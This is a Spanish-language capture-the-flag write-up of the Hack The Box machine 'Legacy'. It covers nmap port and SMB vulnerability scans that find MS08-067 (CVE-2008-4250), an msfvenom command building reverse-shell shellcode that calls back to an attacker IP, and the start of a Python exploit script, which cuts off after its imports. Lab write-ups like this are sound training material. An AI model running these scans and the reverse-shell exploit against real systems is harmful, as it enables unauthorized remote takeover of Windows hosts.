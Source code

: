 ```shell
ping -c 1 10.10.10.4
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.4 -oG allPorts
extractPorts allPorts
nmap -sCV -p135,139,445 10.10.10.4 -oN target
```

![[Legacy1.png]]
![[Legacy2.png]]![[Legacy3.png]]
*TTL:* Maquina windows
*Puertos:*
	`445`[[smb]]

*Otra informacion relevante*
Es un windows XP, y tiene un usuario que se llama legacy. Y un workgroup que se llama HTB

-------
## Escaneo con [[NMAP Scripts]] por que es [[smb]]
Como vemos un [[smb]], vamos a mandar los scripts de reconocimiento que tiene nmap
```
nmap --script="smb-vuln*"  -p445 10.10.10.4 -oN smbScan
```

![[Legacy4.png]]
Encontramos que esta expuesto a la vulnerabilidad [[CVE-2008-4250]]

----------
# Explotacion vulnerabilidad [[CVE-2008-4250]]

[Proyecto de github rayhan0x01 para explotacion del MS08-067](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)      
##### *Aclaracion: Vamos a usar python2 para el exploit*

Utilizamos ``pip install pycrypto`` por que era la unica libreria que no teniamos

Con [[msfvenom]] vamos a crear el shellcode que vamos a inyectar con el exploit

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

Nos va a dar como output este shellcode que lo vamos a poner en el script cuando lo creemos

![[Legacy14.png]]

En un archivo que llamamos *Exploit.py* pusimos el siguiente contenido (Recordar cambiar el shellcode)

```python
#!/usr/bin/env python
import struct
import time
import sys
from threading import Thread  # Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    #from impacket.dcerpc import dcerpc
    from impacket.dcerpc.v5 import transport

except ImportError:
    print('Install the following library to make this script work')
    print('Impacket : https://github.com/CoreSecurity/impacket.git')
```